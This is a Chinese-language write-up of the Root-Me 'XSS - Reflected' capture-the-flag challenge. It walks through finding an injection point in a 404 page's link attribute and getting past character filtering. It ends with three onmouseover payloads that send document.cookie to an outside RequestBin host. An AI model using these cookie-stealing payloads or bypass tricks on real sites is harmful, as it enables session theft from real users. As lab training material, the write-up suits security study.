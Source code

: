 ## [[Root-Me](https://www.root-me.org/)] [[Cracking](https://www.root-me.org/en/Challenges/Web-Client/)] [[XSS - Reflected](https://www.root-me.org/en/Challenges/Web-Client/XSS-Reflected)] [[解题报告](http://exp-blog.com/2019/01/02/pid-2683/)]

------

题目已经提示是反射型 XSS 的题型，但题目已经提示了 **admin 不会点击所有可疑的 XSS 链接**， 亦即我们要想办法令我们的 XSS 在 **不被点击** 的前提下触发。

![](http://exp-blog.com/wp-content/uploads/2019/01/782afad413d0f441a3d1ae8d050903d4.png)

看过了所有页面，只有在 Contact us 页面的留言区有输入点，但不是注入点，因为留言后页面提示这里会扔掉所有消息并不会查看。

查看页面源码，发现有一个隐藏页面 Security ， 但打开发现是个 404 页面。

![](http://exp-blog.com/wp-content/uploads/2019/01/bebd4732f4905a3284a45959b25e2059.png)

不过注意到，修改 URL 中的 `?p=${xxx}` ， 404 页面中会对应打印 `The page ${xxx} could not be found.` ，其中 `${xxx}` 被嵌入到 &lt;a&gt; 标签的 href 属性：`<a href="?p=${xxx}" >${xxx}</a>`，怀疑这里可能是一个 XSS 注入点。

不过测试发现，这个注入点对很多 html 符号做了过滤，`<>"+` 等符号都被过滤了，注入难度较高。唯独单引号 `'` 没有被过滤，因此可以用它来关闭前一个 href 属性，注入可以触发 XSS 的属性。

尝试构造 URL 的 payloads 参数：`?p=exp' onmousemove='alert(1)`，发现 &lt;a&gt; 标签被注入成为 `<a href="?p=exp" onmousemove="alert(1)">`，亦即成功注入了 `onmousemove` 属性，当鼠标经过这个链接时，就会触发 XSS 。

而之所以注入 `onmousemove` 属性而非 `onclick` 属性，是因为题目已经明确表示  **admin 不会点击所有可疑的 XSS 链接** ，因此注入的 XSS 行为是不能通过点击触发的，且必须是 js 脚本。

![](http://exp-blog.com/wp-content/uploads/2019/01/229906f972207653160cd6213142d7db.png)

据此可以构造真正的 payloads 了，下面几条都是我构造的有效 payloads ，任选一条均可。其中 `${HOST}` 是通过 [RequestBin](https://requestbin.fullcontact.com/) 生成的临时 HTTP 服务器：

```javascript
# 注意构造 payloads 的时候必须清楚哪些字符是被过滤的，尤其是 +，此处用 concat 代替
# 这 3 条 payloads 任一条均可用
exp' onmouseover='document.location=%22${HOST}?%22.concat(document.cookie)
exp' onmouseover='document.write(%22<img src=${HOST}?%22.concat(document.cookie).concat(%22 />%22))
exp' onmouseover='setTimeout(function()%7Bdocument.location=%22${HOST}?%22.concat(document.cookie);%7D,1)
```

点击 `REPORT TO THE ADMINISTRATOR` 按钮提交 payloads， 然后在 `${HOST}` 等待 robot 触发 XSS 即可（大概需要一分钟）。若触发成功则会收到一个 flag ，完成挑战。

![](http://exp-blog.com/wp-content/uploads/2019/01/4805756a17ba7fcbc62d75c16305cbfe.png)
![](http://exp-blog.com/wp-content/uploads/2019/01/eee8046201dadcf831dd1e9ce263d284.png)

> 本题要点：
　　○ flag 是在 cookie 里面的，因此必须窃取 `document.cookie`
　　○ 必须要清楚哪些字符被过滤了，尤其注意 `+` 也是在过滤列表中，即使编码成 `%2B` 也绕不过去，很多同学构造号 payloads 后，在本地可以触发，但是提交后 rotbot 却不触发，就是这个原因。
　　○ `onmousemove`、`onmouseover`、`onmouseenter`、`onmouseout` 等 &lt;a&gt; 的属性都是可以被 rotbot 触发的
　　○ robot 真的很仿真，而且似乎还担心触发不到事件，只要 payloads 是对的，就会连续触发 5 次

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
